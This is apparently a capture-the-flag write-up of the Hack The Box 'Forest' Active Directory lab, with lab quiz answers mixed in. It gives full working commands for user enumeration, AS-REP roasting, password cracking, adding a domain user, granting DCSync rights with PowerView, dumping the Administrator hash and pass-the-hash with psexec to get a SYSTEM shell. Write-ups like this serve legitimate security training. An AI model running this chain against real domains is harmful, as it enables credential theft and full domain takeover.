# IP Address

IP Address of the machine Forest

```
10.129.95.210
```
# Enumeration NMAP

```
└──╼ [★]$ nmap 10.129.95.210
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 19:10 CDT
Nmap scan report for 10.129.95.210
Host is up (0.076s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

```

SMB (Server Message Block) 445 port - microsoft-ds

SMB is a network protocol that allows for file sharing, network browsing, printing services, and inter-process communication over a network. 

No anonymous or nopassword is enabeled:



crackmapexec - is a swiss army knife, for pentesting Windows/Active Directory environments. 

From enumerating logged on users and spidering SMB shares to executing psexec style attacks, auto-injecting Mimikatz/Shellcode/DLL's into memory using Powershell, dumping the NTDS.dit and more.



135 port - msrpc

RPCClient - is a tool used for executing client side MS-RPC functions to manage Windows NT clients from Unix workstations. From an offensive security standpoint, it can be used to enumerate users, groups, and other potentially sensitive information. The following command attempt to connect to the NetBIOS server anonymously, in order to enumerate using MS-RPC available commands/functions.   

```
Command: rpcclient -U '' -N 10.129.95.210
```
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```
The best suited to investigate further:
```
user:[Administrator] rid:[0x1f4]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Create the users.txt for userlist:

```
Administrator
sebastien
lucinda
andy
mark
santi
```
Crackmapexec command:

```
└──╼ [★]$ crackmapexec  smb 10.129.95.210 -u users.txt -p users.txt
SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [-] htb.local\Administrator:Administrator STATUS_LOGON_FAILURE
SMB         10.129.95.210   445    FOREST           [-] htb.local\sebastien:Administrator STATUS_LOGON_FAILURE

```
Question 1:
For which domain is this machine a Domain Controller?
Answer:
htb.local

Impacket-GetNPUsers - Impacket's GetNPUsers.py will attempt to harvest the non-preauth AS-REP responses for a given list of usernames. These responses will be encrypted with the user's password, which can then be cracked offline. 
Command:

```
└──╼ [★]$ impacket-GetNPUsers htb.local/ -usersfile users.txt -no-pass -request -dc-ip 10.129.95.210
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:a8437c70b147b76e43fe1dac2a2b9a8f$6cc2785b5502fe857aac3a332a66948fe13b7ca61eb9f574b701629e81c40f33093042e6aa8b477d8e29d32f3ff503c1b5536c1e2d7f2277a15a27eee8c4145761cf6fc6ab82dc2a69a3825f0bb41f57a9683b68fa4a18945c5089a7d6b3e265920e37d69907ab90e863f89819d436d9378bc39ded4a71c89cf8cf8a911a001f310d81ce4a12d97f85126ea13884af0145c8a9c7d445087bf886d083f59bce750c506aba65dbb0f9d6a28901b615b5086db7fda4c1d05075c0b972fdb9036c62dafe2663d2682535d3896275cac7ef538b4e8f52b13fe441910551597016da1a68416a247572
```

subl - is a command-line tool included with Sublime Text that allows you to open files and folders in the editor from the terminal

to use the john should be used dictionary:
rockyou.txt.gz

Command:
```
sudo gunzip rockyou.txt.gz
```



svc-alfresco:s3rvice

Going to crackmapexec:

```
└──╼ [★]$ crackmapexec smb 10.129.95.210  -u users.txt -p passwords.txt   --continue-on-success
SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [-] htb.local\Administrator:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [-] htb.local\sebastien:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [-] htb.local\lucinda:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [-] htb.local\andy:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [-] htb.local\mark:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [-] htb.local\santi:s3rvice STATUS_LOGON_FAILURE 
SMB         10.129.95.210   445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
```

Cracmapexec winrm:

```
└──╼ [★]$ crackmapexec winrm 10.129.95.210  -u users.txt -p passwords.txt   --continue-on-success
WINRM       10.129.95.210   5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\Administrator:s3rvice
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\sebastien:s3rvice
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\lucinda:s3rvice
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\andy:s3rvice
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\mark:s3rvice
WINRM       10.129.95.210   5985   FOREST           [-] htb.local\santi:s3rvice
WINRM       10.129.95.210   5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Question 2:
Which of the following services allows for anonymous authentication and can provide us with valuable information about the machine? FTP, LDAP, SMB, WinRM
Answer:
LDAP
LDAP  - Lightweight Directory Access Protocol is a method for obtaining distributed directory information from a service. For Windows Active Directory environments this is a useful method of enumerating users, computers, misconfigurations. 

By using evil-winrm command:
```
─╼ [★]$ evil-winrm -i 10.129.95.210 -u svc-alfresco -p s3rvice
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```
Evil-winrm tool purpose is to pentest Microsoft Windows environment. Evil-winrm works with Powershell remoting protocol. Usually, system and network administrators use Windows Remote Management protocol that works with HTTP transport port 5985. 

Question 3:
Which user has Kerberos Pre-Authentication disabled?
Answer: 
svc-alfresco

AS-REP Roasting is a technique that enables attackers to steal the password hashes of user accounts that have Kerberos preauthentication disabled.  

Question 4: 
What is the password of the user svc-alfresco?
Answer: 
s3rvice

Question 5: 
To what port can we connect with these creds to get an interactive shell?

# Privilege Escalation

User Enumeration:

```
Coomand:

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user /domain

User accounts for \\

-------------------------------------------------------------------------------
$331000-VK4ADACQNUCA     Administrator            andy
DefaultAccount           Guest                    HealthMailbox0659cc1
HealthMailbox670628e     HealthMailbox6ded678     HealthMailbox7108a4e
HealthMailbox83d6781     HealthMailbox968e74d     HealthMailboxb01ac64
HealthMailboxc0a90c9     HealthMailboxc3d7722     HealthMailboxfc9daad
HealthMailboxfd87238     krbtgt                   lucinda
mark                     santi                    sebastien
SM_1b41c9286325456bb     SM_1ffab36a2f5f479cb     SM_2c8eef0a09b545acb
SM_681f53d4942840e18     SM_75a538d3025e4db9a     SM_7c96b981967141ebb
SM_9b69f1b9d2cc45549     SM_c75ee099d0a64c91b     SM_ca8c2ed5bdab4dc9b
svc-alfresco
The command completed with one or more errors.

```

Start to work with Bloodhound. First, in case of BloodHound to use, command: ```neo4j console``` acts as an interactive tutorial where you can import data and easily share it online using a simple link. This is not simplifies sharing graph projects. 

Trying to get SharpHound.exe on the AD machine, because it collects all the information to implement on BloodHound

See the image:


See the BloodHound image of the Administrator memner of the AD:


See the compromised svc-alfresco Reacheble High Value Targets:


See the group svc-alfresco is part of:


Here there is an Exchange Windows Permissions@HTB.LOCAL that means in BloodHound:
```
This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.
```



Means that svc-alfresco can do anything into Exchange Windows Permissions

Write DACL between ExchangeWinPerm to HTB.LOCAL (img-8):


So, create the new user in the domain:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user dana dana12345dana /add /domain
The command completed successfully.
```

Add to the group 'Exchange Windows Permissions' this user:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add dana
The command completed successfully.
```

To perform Windows Abuse, there is a need of PowerView.ps1:


Th command running:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . ./PowerView.ps1
```

The commands to abuse provided by BloodHound:

```
$SecPassword = ConvertTo-SecureString 'dana12345dana' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\dana', $SecPassword)
```

```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity DC="htb,DC=local" -PrincipalIdentity dana -Rights DCSync
```
The answer:



Administrator hash:

```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
Impacket-PsExec offers psexec like functionality. This will give the interactive Windows shell. 

The command:
```
└──╼ [★]$ impacket-psexec administrator@10.129.95.210 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.95.210.....
[*] Found writable share ADMIN$
[*] Uploading file gQODkfue.exe
[*] Opening SVCManager on 10.129.95.210.....
[*] Creating service YEeL on 10.129.95.210.....
[*] Starting service YEeL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```

Question 7:
Which group has WriteDACL permissions over the HTB.LOCAL domain? Give the group name without the @htb.local.

See (img-8)

Answer: 
Exchange Windows Permissions

Question 8:
The user svc-alfresco is a member of a group that allows them to add themself to the "Exchange Windows Permissions" group. Which group is that?

See:


Answer:
Account Operators

Question 9:
Which of the following attacks you can perform to elevate your privileges with a user that has WriteDACL on the domain? PassTheHash, PassTheTicket, DCSync, KrbRelay

See in info Help: WriteDacl:
```
To abuse WriteDacl to a domain object, you may grant yourself DCSync privileges.

You may need to authenticate to the Domain Controller as a member of EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL if you are not running a process as a member. To do this in conjunction with Add-DomainObjectAcl, first create a PSCredential object (these examples comes from the PowerView help documentation):
```

Answer: 
DCSync